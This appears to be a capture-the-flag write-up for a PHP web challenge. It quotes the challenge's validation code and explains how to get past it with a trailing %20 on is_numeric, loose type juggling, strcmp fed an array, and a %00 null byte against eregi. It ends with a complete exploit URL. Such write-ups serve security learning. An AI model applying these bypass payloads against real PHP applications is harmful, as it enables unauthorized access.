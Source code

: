 <h1>Web - 150</h1>
<p>Given an php file. It seems we have to bypass all strange rules. (web09.php)</p>
<p>1. Numeric problem. (It requires input no a number, but bigger than 2016)<br/>
2018%20 can bypass the checking.<br/>
"bar1":"2018%20"
</p>

```php
is_numeric(@$a["bar1"])?die("nope"):NULL;
if(@$a["bar1"]){
	($a["bar1"]>2016)?$v1=1:NULL;
}
```

<p>2.Value in json array. But cannot find by foreach<br/>
It can use php type juggling to bypass. It is because when string compare with integer, string will type casting to integer. (intval('nudt') == 0). So, only need to change one of the value to 0.<br/>
"bar2":[[1],1,2,0,1]
</p>

```php
	if(is_array(@$a["bar2"])){
        if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
        $pos = array_search("nudt", $a["bar2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["bar2"] as $key=>$val){
            $val==="nudt"?die("nope"):NULL;
        }
        $v2=1;

    }	
```

<p>3. String compare with array in strcmp will be null. And %00 can interrput eregi.</p>

```php
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
    if(!strcmp($c[1],$d) && $c[1]!==$d){
		eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
		strpos(($c[0].$d), "isccctf2017")?$v3=1:NULL;
	}
}
```

<p>So, finally payload is http://139.129.108.53:8083/web-09/index.php?iscc={%22bar1%22:%222018%20%22,%22bar2%22:[[1],1,2,0,1]}&cat=0001&cat[0]=00isccctf2017&cat[1][]&dog=%00</p>
